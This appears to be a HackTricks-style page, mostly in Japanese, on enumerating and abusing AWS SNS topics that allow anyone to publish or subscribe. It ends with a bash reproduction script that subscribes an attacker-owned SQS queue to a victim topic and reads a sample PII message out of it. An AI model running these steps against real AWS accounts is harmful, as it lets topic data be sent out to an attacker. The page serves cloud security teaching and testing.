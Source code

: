 # AWS - SNS 未認証の列挙

{{#include ../../../../banners/hacktricks-training.md}}

## SNS

For more information about SNS check:

{{#ref}}
../../aws-services/aws-sns-enum.md
{{#endref}}

### 全員に公開

Web コンソールから SNS トピックを設定する際、トピックに対して **Everyone can publish and subscribe** と指定することができます:

<figure><img src="../../../../images/image (212).png" alt=""><figcaption></figcaption></figure>

したがって、アカウント内のトピックの **ARN を見つける**（またはトピック名を brute forcing して見つける）ことができれば、それらに対して **publish** または **subscribe** できるかを **確認** できます。

これは、SNS トピックのリソースポリシーが `sns:Subscribe` を `*`（または外部アカウント）に許可しているのと同等です。任意の principal は、今後のすべてのトピックメッセージを自身が所有する SQS キューに配信するサブスクリプションを作成できます。キューの所有者がサブスクリプションを開始した場合、SQS エンドポイントに対して人間の確認は不要です。

<details>
<summary>再現 (us-east-1)</summary>
```bash
REGION=us-east-1
# Victim account (topic owner)
VICTIM_TOPIC_ARN=$(aws sns create-topic --name exfil-victim-topic-$(date +%s) --region $REGION --query TopicArn --output text)

# Open the topic to anyone subscribing
cat > /tmp/topic-policy.json <<JSON
{"Version":"2012-10-17","Statement":[{"Sid":"OpenSubscribe","Effect":"Allow","Principal":"*","Action":"sns:Subscribe","Resource":"$VICTIM_TOPIC_ARN"}]}
JSON
aws sns set-topic-attributes --region $REGION --topic-arn "$VICTIM_TOPIC_ARN" --attribute-name Policy --attribute-value file:///tmp/topic-policy.json

# Attacker account (queue owner)
ATTACKER_Q_URL=$(aws sqs create-queue --queue-name attacker-exfil-queue-$(date +%s) --region $REGION --query QueueUrl --output text)
ATTACKER_Q_ARN=$(aws sqs get-queue-attributes --queue-url "$ATTACKER_Q_URL" --region $REGION --attribute-names QueueArn --query Attributes.QueueArn --output text)

# Allow the victim topic to send to the attacker queue
cat > /tmp/sqs-policy.json <<JSON
{"Version":"2012-10-17","Statement":[{"Sid":"AllowVictimTopicSend","Effect":"Allow","Principal":{"Service":"sns.amazonaws.com"},"Action":"sqs:SendMessage","Resource":"$ATTACKER_Q_ARN","Condition":{"ArnEquals":{"aws:SourceArn":"$VICTIM_TOPIC_ARN"}}}]}
JSON
aws sqs set-queue-attributes --queue-url "$ATTACKER_Q_URL" --region $REGION --attributes Policy="$(cat /tmp/sqs-policy.json)"

# Subscribe the attacker queue to the victim topic (auto-confirmed for SQS)
SUB_ARN=$(aws sns subscribe --region $REGION --topic-arn "$VICTIM_TOPIC_ARN" --protocol sqs --notification-endpoint "$ATTACKER_Q_ARN" --query SubscriptionArn --output text)

# Validation: publish and receive
aws sns publish --region $REGION --topic-arn "$VICTIM_TOPIC_ARN" --message {pii:ssn:123-45-6789}
aws sqs receive-message --queue-url "$ATTACKER_Q_URL" --region $REGION --max-number-of-messages 1 --wait-time-seconds 10 --query Messages[0].Body --output text
```
</details>

{{#include ../../../../banners/hacktricks-training.md}}
